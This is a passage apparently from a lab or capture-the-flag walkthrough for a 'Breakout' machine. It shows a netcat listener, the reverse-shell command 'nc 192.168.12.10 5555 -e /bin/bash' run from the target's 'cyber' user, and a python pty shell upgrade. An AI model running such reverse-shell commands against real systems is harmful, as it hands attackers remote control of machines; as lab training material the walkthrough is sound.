



5.2 Netcat reverse connection
1. On your Kali Machine setup a listener.
$nc -nlvp 5555
Output:

2. On “cyber” user's shell run the following command.
[cyber@breakout ~]$nc 192.168.12.10 5555 -e /bin/bash
You'll a connection on your Kali Machine.
Output:

3. Upgrade to an Intelligent Shell.
1) Check python availability.
[cyber@breakout ~]$which python python2 python3
Output:
2)
python3 -c 'import pty;pty.spawn("/bin/bash")'
Output:

NOTE
If you get any problem with the reverse shell.
• Restart the Breakaout Machine, get a Reverse Shell and repeat the steps above.
• Start new shell with a new terminal session.